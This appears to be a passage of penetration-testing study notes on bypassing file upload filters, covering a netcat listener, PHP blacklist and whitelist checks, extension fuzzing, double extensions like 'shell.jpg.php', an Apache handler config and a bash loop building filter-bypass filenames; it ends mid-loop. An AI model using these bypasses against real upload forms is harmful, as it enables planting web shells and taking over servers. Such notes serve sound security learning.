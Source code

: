 ```msfvenom
```
###### Netcat Listener
```netcat
nc -lvnp OUR_PORT
```
# Blacklist Filters
## Blacklisting Extensions
```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```
## Fuzzing Extensions
```
/home/kali/Desktop/SecLists/Discovery/Web-Content/web-extensions.txt
```
![[fuzz-extensions.png]]
## Non-Blacklisted Extensions
![[non-blacklisted-extendsion.png]]
# Whitelist Filters
## Whitelisting Extensions
The following is an example of a file extension whitelist test:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```
## Double Extensions
`shell.jpg.php`
![[double-extension.png]]
## Reverse Double Extension
For example, the `/etc/apache2/mods-enabled/php7.4.conf` for the `Apache2` web server may include the following configuration:
```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```
## Character Injection
###### ExtensionBypassWordlist.txt
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
```